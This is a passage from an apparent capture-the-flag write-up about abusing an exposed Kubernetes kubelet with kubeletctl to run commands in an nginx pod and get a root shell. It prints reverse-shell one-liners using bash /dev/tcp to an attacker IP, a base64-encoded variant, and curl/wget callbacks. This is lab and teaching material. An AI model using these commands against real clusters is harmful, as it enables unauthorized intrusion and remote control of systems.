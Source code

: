 
    oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'" -p nginx -c nginx
    -i: -c: line 0: unexpected EOF while looking for matching `''
    -i: -c: line 1: syntax error: unexpected end of file
    command terminated with exit code 1
    oxdf@hacky$ kubeletctl -s 10.10.11.133 exec 'bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"' -p nginx -c nginx
    -i: -c: line 0: unexpected EOF while looking for matching `"'
    -i: -c: line 1: syntax error: unexpected end of file
    command terminated with exit code 1



Thinking it might be bad characters, I tried encoded the reverse shell:



    oxdf@hacky$ echo "bash -i >& /dev/tcp/10.10.14.6/443 0>&1" | base64 -w0
    YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==
    oxdf@hacky$ kubeletctl -s 10.10.11.133 exec 'echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==" | base64 -d | bash' -p nginx -c nginx
    "YmFzaCAtaSA JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==" | base64 -d | bash



It doesn't seem to handle the pipes well.

Neither `curl` nor `wget` seem to be in the container:



    oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "curl 10.10.14.6" -p nginx -c nginx
    OCI runtime exec failed: exec failed: container_linux.go:344: starting container process caused "exec: \"curl\": executable file not found in $PATH": unknown
    command terminated with exit code 126
    oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "wget 10.10.14.6" -p nginx -c nginx
    OCI runtime exec failed: exec failed: container_linux.go:344: starting container process caused "exec: \"wget\": executable file not found in $PATH": unknown
    command terminated with exit code 126



`nc`, `python`, and `python3` aren't either.

### Shell

*Update 15 Sept 2022: Big thanks to GhostNinja who pointed this out to
me.*

It turns out there's a much simpler way to get a shell - just issue the
`bash` (or `sh`) command:



    oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "/bin/bash" -p nginx -c nginx
    root@nginx:/# id
    uid=0(root) gid=0(root) groups=0(root)



This command is listed on the [HackTricks page for
Kubernetes](https://book.hacktricks.xyz/cloud-security/pentesting-kubernetes/pentesting-kubernetes-from-the-outside?q=kubeletctr#kubelet-rce).
As I failed to get a shell when initially solving the box, the rest of
the writeup is operating without this.

